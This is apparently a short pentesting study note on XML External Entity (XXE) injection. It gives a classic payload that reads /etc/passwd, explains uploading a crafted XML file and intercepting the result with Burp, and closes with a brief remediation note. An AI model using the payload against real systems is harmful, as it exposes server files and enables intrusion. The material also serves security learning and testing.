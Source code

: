 # XML External Entities Injection (XXE)

## What is XXE?

1. <mark style="color:yellow;">Attacking systems that parse XML input</mark>
2. Abuse SYSTEM entity and get malicious
3. <mark style="color:yellow;">Attacks include DoS, LFI, RCE, and more</mark>

Can you place malicious XML files onto a server and get the web application to parse the XML and trigger the attack?

### Test XML File for XXE Testing

Classic XXE:

{% code overflow="wrap" %}
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
{% endcode %}

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE gift [
    <!ENTITY from "hacker">
]>

<gift>
    <To>Frank</To>
    <From>&from;</From>
    <Item>Baseball Cards</Items>

</gift>
```

### XXE Payloads (PayloadsAllTheThings)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#billion-laugh-attack" %}

## XXE Attack and Defense

* You should attempt to identify file upload possibilities
* Once you identify a file upload, upload it to the web app and intercept the request with Burp
* If the XML is parsed, it will trigger the malicious code and return the results blindly (hence why you need Burp)

Response intercepted from Burp:

* you can see that we see the results of /etc/passwd

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Remediation

* If you disable external entities
* Once you do this, you will be able to mitigate this vulnerability
